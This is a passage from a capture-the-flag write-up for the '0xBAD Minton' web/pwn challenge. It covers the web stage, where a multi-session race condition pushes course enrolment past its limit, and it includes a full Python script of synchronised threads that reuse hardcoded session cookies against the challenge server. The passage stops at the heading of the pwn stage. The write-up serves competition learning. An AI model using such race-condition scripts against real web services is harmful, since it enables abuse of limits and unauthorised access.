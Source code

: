 # 0xBAD Minton (web/pwn, 14 solved, 740p)

## Web part

First part of the task is on the Web side.
We get access to some webpage where we can register, and sign-up for 0-3 "courses".
There is really nothing more, no SQLi in forms or anything else.

In the root of the page we get access to some interesting files:

- [backend server binary](backend_server)
- Todo note `Quickly complete netcat client version on 178.128.84.72:9997`

We can connect via netcat to given endpoint, and the binary we just found is actually listening there for connections.
Once we reverse engineer the binary a bit, we come to the conclusion, that we could exploit it, if we manage to sign-up for more than 3 courses.
This has to be done on the web side.

We thought that maybe a simple race condition will work, but it didn't.
Then we tried to do race condition, with multiple sessions, and it worked just fine.

We create 2 different user session on the webpage.
Then we try to add courses from both of them at the same time:

```python
import threading
import requests
from queue import Queue

max = 100
threads = Queue()
init_barrier = threading.Barrier(max * 2)


def enroll(cookie):
    threads.get()
    init_barrier.wait()
    url = "http://178.128.84.72/login.php?action=enroll"
    print(requests.get(url, cookies={"PHPSESSID": cookie}).text)
    threads.task_done()


def worker2(index):
    enroll("33hoabtfv6t8amoovlrjecqun5")


def worker(index):
    enroll("qq5kqe8lbeim1md44m2bnuajr4")


def main():
    for i in range(max):
        thread = threading.Thread(target=worker, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max):
        thread = threading.Thread(target=worker2, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max * 2):
        threads.put(i)
    threads.join()


main()
```

We go with 2 sessions, and 100 threads each.
After we run this, we get user with 6 courses, which is enough to exploit the binary.

## Pwn part
